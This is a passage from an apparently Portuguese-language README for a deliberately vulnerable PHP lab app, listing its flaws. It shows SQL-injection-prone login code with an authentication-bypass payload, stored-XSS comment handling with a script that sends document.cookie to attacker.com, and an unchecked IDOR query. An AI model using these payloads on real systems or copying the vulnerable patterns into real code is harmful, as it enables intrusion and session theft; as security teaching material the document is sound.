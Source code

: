 #### Cenário 2: Teste de Responsividade
1. Desktop (1920x1080)
2. Tablet (768x1024)
3. Mobile (375x812)
4. Mobile pequeno (320x568)

## 🔒 Vulnerabilidades Detalhadas

### 1. SQL Injection (Alto Risco)

**Localização:** `database.php` - método `authenticateUser()`
```php
// VULNERÁVEL
$query = "SELECT * FROM users WHERE username = '$username' AND password_hash = '$password'";
```

**Exploit:**
```sql
username: admin' OR '1'='1' --
password: qualquer_coisa
```

**Impacto:** Bypass de autenticação, extração de dados

---

### 2. Stored XSS (Alto Risco)

**Localização:** `dashboard.php` - sistema de comentários
```php
// VULNERÁVEL - sem sanitização
$comment = $_POST['comment'];
$query = "INSERT INTO comments (content, user_id) VALUES ('$comment', $user_id)";
```

**Exploit:**
```html
<script>
    // Roubo de cookies
    fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
</script>
```

**Impacto:** Execução de código malicioso, roubo de sessão

---

### 3. Insecure Direct Object Reference (Médio Risco)

**Localização:** `dashboard.php` - acesso a dados de usuários
```php
// VULNERÁVEL - sem verificação de autorização
$user_id = $_GET['user_id'];
$query = "SELECT * FROM users WHERE id = $user_id";
```
